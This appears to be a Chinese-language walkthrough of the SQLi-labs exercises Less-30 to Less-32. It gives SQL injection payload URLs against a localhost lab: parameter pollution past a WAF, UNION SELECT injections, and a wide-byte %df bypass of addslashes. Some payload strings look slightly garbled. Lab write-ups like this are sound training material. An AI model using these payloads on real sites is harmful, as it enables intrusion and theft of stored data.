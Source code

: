 ### GET受WAF保护双引号注入

这一关跟上一关差不多，区别在于sql语句使用的参数加了双引号。如下payload可以检测出：

> http://localhost/Less-30/login.php?id=1\&id=1%22"

![](/img/sql/error.png)

构造payload：

> http://localhost/Less-30/login.php?id=1\&id=0%22%20union%20select%201,2,3%20--+"

## Less-31

### GET受WAF保护括号注入

跟上面大同小异,从报错可以看出参数闭合的方式。 &#x20;
payload：

> http://localhost/Less-31/login.php?id=1\&id=0%22)%20union%20select%201,2,3%20--+")%20union%20select%201,2,3%20--+)

## Less-32

### GET字符型addslashes绕过注入

测试：

> http://localhost/Less-32/?id=1%df%27"

![](/img/sql/error1.png)

从报错看出单引号被添加了一个斜杠。

源码：

![](/img/sql/so.png)

